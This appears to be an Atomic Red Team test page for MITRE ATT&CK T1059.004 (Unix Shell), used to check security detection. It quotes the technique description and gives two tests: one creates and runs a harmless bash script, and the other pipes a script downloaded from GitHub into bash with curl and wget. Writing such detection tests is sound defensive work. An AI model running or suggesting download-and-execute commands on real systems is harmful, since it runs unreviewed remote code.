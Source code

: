 # T1059.004 - Unix Shell
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1059/004)
<blockquote>Adversaries may abuse Unix shell commands and scripts for execution. Unix shells are the primary command prompt on Linux and macOS systems, though many variations of the Unix shell exist (e.g. sh, bash, zsh, etc.) depending on the specific OS or distribution.(Citation: DieNet Bash)(Citation: Apple ZShell) Unix shells can control every aspect of a system, with certain commands requiring elevated privileges.

Unix shells also support scripts that enable sequential execution of commands as well as other typical programming operations such as conditionals and loops. Common uses of shell scripts include long or repetitive tasks, or the need to run the same set of commands on multiple systems.

Adversaries may abuse Unix shells to execute various commands or payloads. Interactive shells may be accessed through command and control channels or during lateral movement such as with [SSH](https://attack.mitre.org/techniques/T1021/004). Adversaries may also leverage shell scripts to deliver and execute multiple commands on victims or as part of payloads used for persistence.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create and Execute Bash Shell Script](#atomic-test-1---create-and-execute-bash-shell-script)

- [Atomic Test #2 - Command-Line Interface](#atomic-test-2---command-line-interface)


<br/>

## Atomic Test #1 - Create and Execute Bash Shell Script
Creates and executes a simple bash script.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 7e7ac3ed-f795-4fa5-b711-09d6fbe9b873





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| script_path | Script path | Path | /tmp/art.sh|


#### Attack Commands: Run with `sh`! 


```sh
sh -c "echo 'echo Hello from the Atomic Red Team' > #{script_path}"
sh -c "echo 'ping -c 4 8.8.8.8' >> #{script_path}"
chmod +x #{script_path}
sh #{script_path}
```

#### Cleanup Commands:
```sh
rm #{script_path}
```





<br/>
<br/>

## Atomic Test #2 - Command-Line Interface
Using Curl to download and pipe a payload to Bash. NOTE: Curl-ing to Bash is generally a bad idea if you don't control the server.

Upon successful execution, sh will download via curl and wget the specified payload (echo-art-fish.sh) and set a marker file in `/tmp/art-fish.txt`.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** d0c88567-803d-4dca-99b4-7ce65e7b257c






#### Attack Commands: Run with `sh`! 


```sh
curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.004/src/echo-art-fish.sh | bash
wget --quiet -O - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.004/src/echo-art-fish.sh | bash
```

#### Cleanup Commands:
```sh
rm /tmp/art-fish.txt
```





<br/>
